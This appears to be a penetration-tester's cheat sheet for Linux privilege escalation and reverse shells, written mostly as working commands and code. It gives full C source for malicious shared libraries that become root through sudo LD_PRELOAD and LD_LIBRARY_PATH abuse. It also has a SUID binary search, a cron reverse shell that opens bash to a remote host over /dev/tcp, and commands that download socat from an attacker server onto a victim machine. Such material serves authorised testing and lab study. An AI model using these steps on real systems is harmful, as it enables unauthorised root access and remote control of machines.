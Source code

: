 # PrivEscalation
***
### Better listener shell experience
```python -c 'import pty;pty.spawn("/bin/bash")'``` 

### List sudo capability of the current user
```sudo -l```

### find interesting tools that can exploit shell
```find / -perm /6000 2>/dev/null | grep '/bin'```

### https://gtfobins.github.io/ followed the interesting tools that can exploit 

### env_keep exploit when sudo -l and ```ddl <thetargetedprogram>``` to find its libraries

#### -Take advantage of LD_PRELOAD
a. compile the library.
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

b. sudo program with the LD_PRELOAD
```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

#### -Take advantage of LD_LIBRARY_PATH
a. find the libraries used by the program
```ldd /usr/sbin/<program> #for example```

b. compile the library with one of the libraries name
```gcc -o /tmp/<libraryname> -shared -fPIC /home/user/library_path.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

c. sudo program with the LD_LIBRARY_PATH
```sudo LD_LIBRARY_PATH=/tmp <programname>```

### Cron job if it's writable on /etc/crontab file (can use any available type of reverse shell http://revshells.com/ ):
```#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1```


### Automated tools
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker


# Reverse Shell
***
1. https://www.revshells.com/
2. MonkeyPenTest
3. Start webserver using python "sudo python3 -m http.server 80" then download files from victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"

